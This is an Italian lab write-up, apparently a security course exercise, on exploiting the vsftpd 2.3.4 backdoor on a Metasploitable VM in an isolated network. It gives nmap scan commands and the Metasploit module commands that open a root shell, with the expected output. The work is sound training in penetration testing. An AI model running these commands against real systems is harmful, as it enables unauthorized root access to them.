

# Consegna S7/L1 - La fase di exploit: Gli attacchi alle Reti ⚛️

## Obiettivo 
L'obiettivo di questa esercitazione è stato **ottenere una shell come utente root** sulla macchina target **Metasploitable-Linux** sfruttando una vulnerabilità nel servizio FTP `vsftpd 2.3.4`.

## Configurazione della rete ⚖️

### Struttura delle macchine virtuali
1. **Kali Linux**:
   - **Interfaccia 1 (eth0)**: Bridged per accesso a **Internet**.
   - **Interfaccia 2 (eth1)**: Rete interna configurata su `192.168.50.2`.

2. **Metasploitable-Linux**:
   - **Interfaccia unica (eth0)**: Configurata nella **rete interna** con IP `192.168.50.3`.
   - **Nessun accesso a Internet** (isolamento per motivi di sicurezza).

### Verifica della connettività
Per assicurarci che le macchine siano nella stessa rete interna:
- **Kali ➞ Metasploitable**
   ```bash
   ping 192.168.50.3
   ```
   **Output atteso**: Risposta da `192.168.50.3` con successo.

- **Metasploitable ➞ Kali** (facoltativo):
   ```bash
   ping 192.168.50.2
   ```

## Scansione iniziale con Nmap 🔍
Una volta verificata la connettività, abbiamo eseguito una scansione rapida su Metasploitable per individuare i servizi attivi:

```bash
nmap -sV -p- 192.168.50.3
```

### Risultato della scansione
La scansione ha evidenziato la presenza del servizio FTP:
- **Porta 21**: FTP attivo con versione `vsftpd 2.3.4`

## Sfruttamento della vulnerabilità con Metasploit 🫠
### Caricamento dell'exploit
Utilizzando **Metasploit**, abbiamo selezionato l'exploit specifico per la vulnerabilità di `vsftpd 2.3.4`:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.50.3
set RPORT 21
run
```

### Esecuzione
L'exploit ha avuto successo, ottenendo una **shell** come utente **root** sulla macchina target.

**Output atteso:**
```bash
Command shell session opened
whoami
root
```

## Risultato finale 💪
L'obiettivo è stato raggiunto con successo:
- Abbiamo ottenuto una shell come **root** sulla macchina Metasploitable-Linux sfruttando il servizio FTP vulnerabile.
- La configurazione della rete interna ha garantito isolamento e sicurezza durante l'attacco.

### Considerazioni sulla sicurezza ⚠️
- La macchina target **Metasploitable** non deve avere accesso a Internet per evitare rischi di compromissione esterna.
- Kali Linux, grazie alla configurazione a doppia scheda di rete, ha mantenuto l'accesso sia alla rete interna che a Internet.

---

## Comandi chiave utilizzati 🛠️
1. **Scansione con Nmap**:
   ```bash
   nmap -sV -p- 192.168.50.3
   ```

2. **Metasploit - Caricamento exploit**:
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOST 192.168.50.3
   set RPORT 21
   run
   ```

3. **Verifica della shell**:
   ```bash
   whoami
   ```



## Mission Success 🏆🚀
